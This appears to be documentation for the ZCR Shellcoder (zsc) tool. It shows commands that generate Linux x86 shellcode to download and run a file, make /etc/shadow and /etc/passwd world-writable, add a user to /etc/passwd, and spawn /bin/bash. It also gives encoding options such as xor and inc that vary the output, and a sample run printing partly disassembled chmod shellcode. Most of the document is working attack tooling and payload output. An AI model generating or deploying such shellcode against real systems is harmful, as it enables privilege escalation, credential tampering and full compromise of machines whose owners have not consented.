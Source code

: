```
>zsc -os linux_x86 -encode none -job "system('wget[space]file;sh[space]file')" -o file.txt
>zsc -os linux_x86 -encode none -job "chmod('/etc/shadow','777')" -o file.txt
>zsc -os linux_x86 -encode none -job "write('/etc/passwd','user:pass')" -o file.txt
>zsc -os linux_x86 -encode none -job "exec('/bin/bash')" -o file.txt
```
<br><strong>Note</strong>: Don't use space ' ' in system() function, replace it with "[space]" , software will detect and replace " " for you in shellcode.
<br><strong>Note</strong>: script_executor(),download_execute(),download(),dir_create(),file_create() are using linux command line , not the function. [wget,mkdir,echo]
system() function added in script, you can use it to do anything and generate any command line shellcode.
<br><strong>Note</strong>: exec() doesn't support any ARGV same as exec('/bin/bash -c ls') or exec('/bin/bash','-c','ls'), you have to wait for next version and this feature will available  in system()
<br><strong>Note</strong>: you also can use high value for inc and dec time, like inc_100000, your shellcode may get too big 
<br><strong>Note</strong>: each time you execute chmod()[or any other] function with random encode, you are gonna get random outputs and different shellcode.
<br><strong>Note</strong>: your xor value could be anything. "xor_0x41414141" and "xor_0x45872f4d" are examples.
<h4>Executing a sample:</h4>
Execute:
```
zsc -os linux_x86 -encode inc_5 -job "chmod('/etc/passwd','777')" -o shellcode.c
```
Result:<br>
<center>{% img http://zsc.z3r0d4y.com/images/Snapshot_2015-07-27_131054.png %}</center>
<br>
Code result: <strong>shellcode.c</strong>
```C shellcode.c

#include <stdio.h>
#include <string.h>
/*
This shellcode generated by ZCR Shellcoder [zsc] http://zsc.z3r0d4y.com/
Title: chmod('/etc/passwd','777')
OS: linux_x86
Encode: inc_5

shellcode.c:     file format elf32-i386

Disassembly of section .text:
00000000 <.text>:
   0:	6a 0a                	push   $0xa
   2:	58                   	pop    %eax
   3:	40                   	inc    %eax
   4:	40                   	inc    %eax
   5:	40                   	inc    %eax
   6:	40                   	inc    %eax
   7:	40                   	inc    %eax
   8:	50                   	push   %eax
   9:	58                   	pop    %eax
   a:	68 8b 90 ff 01       	push   $0x1ff908b
   f:	5b                   	pop    %ebx
  10:	43                   	inc    %ebx
  11:	43                   	inc    %ebx
  12:	43                   	inc    %ebx
  13:	43                   	inc    %ebx
  14:	43                   	inc    %ebx
  15:	53                   	push   %ebx
  16:	59                   	pop    %ecx
  17:	c1 e9 10             	shr    $0x10,%ecx
  1a:	68 8b 73 77 64       	push   $0x6477738b
  1f:	5b                   	pop    %ebx
```